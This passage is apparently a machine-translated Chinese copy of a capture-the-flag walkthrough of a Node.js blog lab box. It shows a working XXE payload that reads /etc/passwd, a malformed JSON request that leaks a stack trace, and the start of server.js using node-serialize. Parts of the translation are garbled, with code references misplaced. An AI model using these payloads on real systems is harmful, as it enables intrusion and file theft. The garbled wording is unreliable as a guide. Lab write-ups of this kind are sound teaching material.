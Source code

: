 
在上传时，它会导致，看起来像已经填写了提交表单：`/articles/xml`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20220110090421985.png) 

#### 断续器

该网站显然接受XML并将其解析为表单以显示给我。这是 XML 外部实体 （XXE） 注入的经典机会 - 我将看看我是否可以让 XML 进程以将其作为代码处理的方式处理我的输入。这是一类类似于SSTI（模板注入）甚至Log4j的错误。

有效载荷所有事物也有很多用于XXE[的示例有效载荷](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files)。我会抓住第一个并尝试阅读.我不能只是按原样提交它，我必须从网站期望的模板开始工作。我将我的 XML 文件更新为：`/etc/passwd`

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <post>
            <title>0xdf's Post</title>
            <description>Read File</description>
            <markdown>&file;</markdown>
    </post>
    
    

这会将实体定义为 的内容，然后在 markdown 字段中引用它。当我提交这个时，它的工作原理：`&file;``/etc/passwd`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20220110123114923.png) 

### 查找源位置

在对各种文件没有找到太多兴趣之后，我发现自己试图使网站崩溃。XML 中的错误只会导致示例负载。URL 中的错误会给出简单的消息，如 。有一件事是将破坏的 JSON 发送到 ：`Cannot GET /a``/login`

    POST /login HTTP/1.1
    Host: 10.10.11.139:5000
    Content-Type: application/json
    Content-Length: 1
    
    {
    

响应包括堆栈跟踪：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20220110131328282.png) 

似乎 Web 应用的源代码正在 中运行。`/opt/blog`

### 反序列化

#### 来源分析

我将在（ 是 Node 应用程序的通用名称）找到应用程序的源代码。`/opt/blog/server.js``server.js`

    const express = require('express')
    const mongoose = require('mongoose')
    const Article = require('./models/article')
    const articleRouter = require('./routes/articles')
    const loginRouter = require('./routes/login')
    const serialize = require('node-serialize')
    const methodOverride = require('method-override')
    const fileUpload = require('express-fileupload')
    const cookieParser = require('cookie-parser');
    const crypto = require('crypto')
    const cookie_secret = "UHC-SecretCookie"
    //var session = require('express-session');
    const app = express()
    
